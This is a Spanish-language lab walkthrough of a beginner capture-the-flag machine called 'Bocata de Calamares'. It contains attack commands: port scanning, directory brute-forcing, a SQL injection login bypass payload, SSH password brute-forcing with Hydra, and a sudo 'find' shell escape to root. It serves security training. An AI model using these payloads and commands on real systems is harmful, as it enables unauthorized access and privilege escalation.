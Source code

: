 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Bocata de Calamares

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.59
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1008).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.59 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1009).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH y** el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.59
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (1010).png" alt=""><figcaption></figcaption></figure>

Miramos a ver que contiene el puerto 80 por si encontramos alguna información relevante.

<figure><img src="../../.gitbook/assets/image (1011).png" alt=""><figcaption></figcaption></figure>

Vemos que nos advierten sobre inyecciones SQL.

<figure><img src="../../.gitbook/assets/image (1012).png" alt=""><figcaption></figcaption></figure>

Como no encontramos nada más relevante hacemos un escaneo de directorios.

```bash
gobuster dir -u http://192.168.1.59/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/image (1019).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el archvio **login.php** por lo que miramos que contiene.

<figure><img src="../../.gitbook/assets/image (1013).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Es un panel de login con el que probamos una **SQL Injectio**n.

```bash
admin
' OR '1'='1
```

<figure><img src="../../.gitbook/assets/image (1014).png" alt=""><figcaption></figcaption></figure>

Accedemos al enlace.

<figure><img src="../../.gitbook/assets/image (1015).png" alt=""><figcaption></figcaption></figure>

En el tercer parámetro nos da una pista en la que tenemos que codificar en **base64** la cadena **lee\_archivos**.

```bash
echo "lee_archivos" | base64
```

<figure><img src="../../.gitbook/assets/image (1016).png" alt=""><figcaption></figcaption></figure>

Metiendo esa cadena en el diccionario descubrimos que existe esa página.

<figure><img src="../../.gitbook/assets/image (1017).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1018).png" alt=""><figcaption></figcaption></figure>

Hemos localizado al usuario **superadministrator**; procederemos a intentar encontrar su contraseña utilizando **Hydra**.

```bash
hydra -l superadministrator -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.59
```

<figure><img src="../../.gitbook/assets/image (1020).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con las credenciales obtenidas.

<figure><img src="../../.gitbook/assets/image (1021).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.&#x20;

<figure><img src="../../.gitbook/assets/image (1022).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/find/" %}

```bash
sudo find . -exec /bin/sh \; -quit
```

<figure><img src="../../.gitbook/assets/image (1023).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.&#x20;

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
